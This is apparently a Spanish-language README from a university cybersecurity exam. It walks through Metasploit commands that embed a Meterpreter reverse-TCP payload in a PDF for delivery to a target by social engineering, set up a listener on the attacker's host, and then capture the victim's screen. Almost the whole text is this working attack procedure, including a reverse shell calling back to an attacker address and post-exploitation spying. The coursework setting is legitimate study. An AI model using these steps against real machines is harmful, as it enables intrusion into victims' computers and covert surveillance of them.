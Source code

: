 # -UDEM--Ciberseguridad
Parcial de Ciberseguridad

Vídeo:

Explicación: Incrusta una Carga (payload) dentro un archivo PDF existente. El archivo PDF resultante puede ser enviado al objetivo como parte de un ataque de ingeniería social.

Sistema Operativo: Windows XP SP3 (Inglés/Español) / Windows Vista / Windows 7 (Inglés)
Programas: Adobe Reader v8.x, v9.x

use exploit/windows/fileformat/adobe_pdf_embedded_exe
set payload windows/meterpreter/reverse_tcp
ifconfig
set lhost 10.191.3.4
set lport 4444
set infilename /root/parcial/el_gigante_egoista.pdf
exploit

back
use exploit/multi/handler
set lhost 10.191.3.4
set lport 4444
exploit

Enviar archivo a la máquina que se desea atacar 
cuando se tenga el acceso a la máquina atacada se podrá usar todas las herramientas que tiene meterpreter

load espia
screengrab

